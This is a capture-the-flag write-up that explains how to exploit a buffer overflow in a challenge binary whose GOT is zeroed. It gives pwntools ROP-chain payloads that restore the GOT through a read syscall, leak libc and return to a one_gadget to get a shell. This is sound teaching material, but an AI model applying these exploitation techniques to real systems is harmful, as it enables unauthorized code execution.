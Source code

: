 ## External 
#### Description
No description.

#### Author
M_alpha

#### Points and solves
467 points and 69 solves.

We are given a binary, that reads out input, clears the GOT table and somehow we need to get a shell.

```c
undefined8 main(void)
{
  undefined buff [80];
  puts("ROP me ;)");
  printf("> ");
  read(0,buff,0xf0);
  clear_got();
  return 0;
}
```

The function ```clear_got``` does exactly what we expect it to do, it uses ```memeset`` to set the entire GOT to 0.

In addition, we have a very usefull gadget in one of the setup functions:
```asm
00401283 0f 05      SYSCALL
00401285 c3         RET
```

### The vulnerability
It is obvious we can overflow ```buff``` and like in the challenge ```echo```,
we keep out eyes peeled for a way to abuse the syscall gadaget.

However, is it not a trivial rop chain, because we can't immediatly return to ```plt``` functions.
So, after a quick research about dynamic linking, I figured out the following, 
the GOT entry for any function, say ```printf```, by default is pointing to ```plt.printf + 0x6```
At that address lays the dynamic linking routine for ```printf```.
If we can set all the zeroed GOT entries to some resolving function in the ```plt``` section, we can reload the GOT entries.


### 1. Setting up conditions for restoring the GOT:
```python
payload = p64(pop_rdi) + p64(0) + p64(pop_rsi_r15) + p64(got_start) + p64(0) + p64(syscall_ret) +\
p64(elf.sym.main)
payload = 0x58*b"A"+payload
p.sendline(payload)
```
We have a rop chain that loads ```rdi = 0, rsi = &GOT``` and returns to a syscall, and to main afterwards.
Since main returns 0, by the time we are executing the rop chain ```rax = 0``` which is the syscall number for ```read```.
At the time we syscall, we will actually read back into the GOT table.

### 2. Rewriting GOT table:
The GOT entries in the binary are in the following order: [puts, setbuf, printf, memset, alarm, read, signal]
```python
payload = p64(elf.sym.plt["puts"]+6) + p64(elf.sym.plt["setbuf"]+6) + p64(elf.sym.plt["puts"]+6) +\
	p64(elf.sym.plt["puts"]+6) + p64(elf.sym.plt["alarm"]+6) + p64(elf.sym.plt["read"]+6) +\
	p64(elf.sym.plt["signal"]+6)
p.sendline(payload)
```
So, we load the appropriate ```plt``` values into the GOT, but we can't just load them the same way, 
because memset will zero them again, so we just patch the GOT entry for memset with ```plt.puts```.
Now, by the time we return to ```main``` the function will resolve their addresses based on the ```plt``` values that are in the GOT tablle.


### 3. Leak libc:
We now have a "stable" binary that won't erase the GOT on us, and we can just leak libc with a simple rop chain:
```python
payload = p64(pop_rdi) + p64(elf.sym.got["puts"]) + p64(elf.sym.plt["puts"]) + p64(elf.sym.main)
```

### 4. Get shell:
We have a one_gadget at ```0x448a3``` offset, we can just return to that with another rop chain.
```python
p.sendline(0x58*b"C" + p64(libc.address + one_shot_offset) + b"\x00"*0x100) 
```




